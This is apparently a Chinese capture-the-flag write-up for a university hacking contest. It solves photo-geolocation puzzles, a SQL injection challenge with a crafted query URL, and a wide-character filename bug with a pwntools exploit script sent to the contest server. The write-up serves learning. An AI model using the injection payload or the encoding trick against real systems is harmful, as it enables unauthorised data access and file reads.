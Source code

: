 打开服务端源代码，立即发现可以 sql 注入。那么直接访问以下地址：

```
https://chal01-mdiohoe9.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id=%27%20or%20shown%20=%20false--
```

这样拼出来的 sql 就是
```sql
select title, contents from messages where id = '' or shown = false--'
```

这样就能找到隐藏的数据条目了。找到之后拉到页面结尾即可获得 flag。

## 旅行照片 4.0 - LEO_CHAN?

惯例的图寻题。直接搜索图片上的文字可以找到 [对应的地址](https://j.map.baidu.com/24/Ghzg)，再搜索中科大校门，可得是东校区西门最近。至于 Leo 酱的事情，可以直接搜索到她的 B 站账号，找到 [对应的动态](https://www.bilibili.com/opus/930934582351495204) 就可以得知是 2024 年 5 月 19 日。

## 旅行照片 4.0 - FULL_RECALL

观察第一张图片的垃圾桶上可知这是六安市，搜索“六安公园红黄蓝”可以得到 [这篇宣传文章](https://www.sohu.com/a/498872898_100023473)，所以是中央公园。而第二张图片直接以图搜图可以得到这是宜昌的坛子岭景区，[有文章为证](https://blog.sciencenet.cn/blog-264137-1027498.html)。

## 旅行照片 4.0 - OMINOUS_BELL

直接搜索“粉色动车组”可以知道左下角的列车是怀柔－密云线上的 CRH6F-A 型电力动车组，其所在的线路有 [维基百科条目](https://zh.wikipedia.org/wiki/%E5%8C%97%E4%BA%AC%E5%B8%82%E9%83%8A%E9%93%81%E8%B7%AF%E6%80%80%E6%9F%94%E2%80%94%E5%AF%86%E4%BA%91%E7%BA%BF)。在 B 站上搜索此线路的运转视频，可以得知图片位置为 [北京北动车运用所](https://j.map.baidu.com/a7/lEU)，在此处搜索医院即可得知最近的医院是积水潭医院。

## 不宽的宽字符

这样肯定不工作啊，因为你把宽字符串的数据当作窄字符串来使用了。本地随机测试一下就会发现，如果输入 `a`，那么就会正常打开 `a` 文件，因为输入变成宽字符串之后加上右面的内容，再当作窄字符串使用的话，开头两个字符就是 `a` 和 `\0`，自然就会打开 `a` 文件。想必小 A 随便找的文件名就是单个字母吧。

这样我们只需要让输入的文件名转为 UTF-16 之后再转为字节时开头是 `Z:\theflag` 后面跟一个 `\0` 就好。要做到这一点，我们只需要把每两个字节的数据塞进一个 UTF-16 字符，再把结果转换为 UTF-8 编码就好。代码如下：

```py
import pwn

token=b"<token>"

conn = pwn.remote('202.38.93.141',14202)
conn.send(token)
conn.send(b"\n")

conn.recvuntil(b"it:")
conn.recvuntil(b"\n")
data=b"Z:\\theflag\0!"
filename="".join(chr(data[2*i]+256*data[2*i+1]) for i in range(len(data)//2)) # 二合一编码

conn.send(filename.encode())
conn.interactive()
```
